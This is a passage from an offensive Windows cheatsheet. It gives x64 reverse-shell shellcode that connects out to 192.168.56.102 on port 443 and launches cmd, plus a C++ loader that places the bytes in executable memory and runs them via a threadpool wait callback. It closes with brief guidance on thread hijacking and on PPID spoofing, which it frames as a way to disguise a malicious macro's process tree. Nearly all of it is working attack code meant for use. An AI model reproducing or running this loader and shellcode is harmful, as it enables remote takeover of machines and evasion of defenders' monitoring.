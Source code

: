 ```cpp
"\x8b\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00"
"\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\xc0\xa8\x38\x66\x41\x54"
"\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c"
"\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff"
"\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2"
"\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48"
"\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99"
"\xa5\x74\x61\xff\xd5\x48\x81\xc4\x40\x02\x00\x00\x49\xb8\x63"
"\x6d\x64\x00\x00\x00\x00\x00\x41\x50\x41\x50\x48\x89\xe2\x57"
"\x57\x57\x4d\x31\xc0\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44"
"\x24\x54\x01\x01\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6"
"\x56\x50\x41\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff"
"\xc8\x4d\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5"
"\x48\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
"\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48"
"\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13"
"\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";


int main()
{
	HANDLE event = CreateEvent(NULL, FALSE, TRUE, NULL);
	LPVOID shellcodeAddress = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	RtlMoveMemory(shellcodeAddress, shellcode, sizeof(shellcode));

	PTP_WAIT threadPoolWait = CreateThreadpoolWait((PTP_WAIT_CALLBACK)shellcodeAddress, NULL, NULL);
	SetThreadpoolWait(threadPoolWait, event, NULL);
	WaitForSingleObject(event, INFINITE);
	
	return 0;
}
```

## Thread Hijacking

Hijack a thread into a remote process by suspend it, then replace its RIP register (or EIP if you are in x86) with your own shellcode address. 

Code example : https://github.com/matthieu-hackwitharts/Win32_Offensive_Cheatsheet/blob/main/shellcode_samples/thread_hijacking.c

## PPID Spoofing

When a suspicious/anormal process start below a "legit" or unattended process parent, it become very suspicious. Think about a malicious Word macro which deploy a powershell process : such strange, right ?

PPID Spoofing can avoid that by allowing you to modify the parent process id (PPID) of your spawned process.
